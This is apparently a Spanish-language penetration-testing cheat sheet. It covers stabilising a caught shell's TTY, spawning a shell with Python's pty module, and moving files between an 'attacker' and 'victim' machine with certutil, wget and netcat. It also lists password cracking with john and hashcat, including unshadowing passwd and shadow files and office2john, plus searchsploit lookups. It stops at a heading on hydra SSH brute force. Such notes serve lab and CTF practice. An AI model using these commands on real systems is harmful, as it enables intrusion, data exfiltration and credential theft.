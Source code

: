  

### Tratamiento de la TTY

```python
script /dev/null -c bash # Lanza pseudoconsola

[ctrl+z] # Suspende la shell actual

stty raw -echo

fg # Recupera la shell suspendida

reset "xterm" # Reinicia la configuración de la terminal

xterm # Especifica el tipo de terminal

export TERM=xterm # Asigna xterm a la variable TERM

export SHELL=bash # Asigna bash a la variable SHELL

stty rows <VALOR_FILAS> columns <VALOR_COLUMNAS>

Para ver el valor de filas y columnas de nuestra terminal se utiliza el comando -> stty -a
 ```
### TTY Shell con Python

```python
python -c 'import pty; pty.spawn("/bin/sh")'
```
### Descompresión

```python
#.tar

tar -xf archive.tar.gz

#.gz

gzip -d file.gz

#.zip

unzip file.zip
```
### Comparación de archivos

```python
diff -c scan-a.txt scan-b.txt

comm scan-a.txt scan-b.txt
```
### Transferencia de archivos

```python 
#HTTP

#Servidor

python3 -m http.server

python -m SimpleHTTPServer

#Cliente

certutil.exe -urlcache -f http://<SERVER_IP>/file.txt file.txt

wget http://<SERVER_IP>/file.txt
```
### FTP
```python
#Servidor

python3 -m pyftpdlib

#Cliente

ftp <SERVER_IP>
```

### Netcat
```python

#Servidor

nc 10.10.14.2 4242 < file.tgz

#Cliente

nc -lvnp 4242 > file.tgz

	maquina atacante
	nc -lvnp "Ports" > "archivo"
----------------------------------------------------------------------------------------------------------------------------------------------------------
	maquina victima
	nc "IP" "Ports" < "archivo"

```

### Sniffing

```python
tcpdump -i tun0 icmp -n
 
```
### Cracking

```python
john --wordlist=/usr/share/wordlists/rockyou.txt hash

hashcat -a 0 -m 1600 hash /usr/share/wordlists/rockyou.txt
```

### Cracking de contraseñas con password y shadow

```python 
unshadow <Archivo_passwd> <Archivo_shadow> > <Archivo_hash>

john --wordlist=<Ruta_Diccionario> <Archivo_hash>
```
### Cracking de documentos encriptados de Office

```python 
office2john.py <Ruta_Documento> > <Archivo_hash>

john --wordlist=<Ruta_Diccionario> <Archivo_hash>
``` 

### Búsqueda de exploits

```python
searchsploit <SOFTWARE>

searchsploit -x <ID_EXPLOIT> # Inspeccionar el código del exploit

searchsploit -m <ID_EXPLOIT> # Mueve el exploit al directorio actual de trabajo
```
### Buscador de archivos

```python
find / -iname nombre_archivo
```
### Fuerxa bruta con hydra para ssh
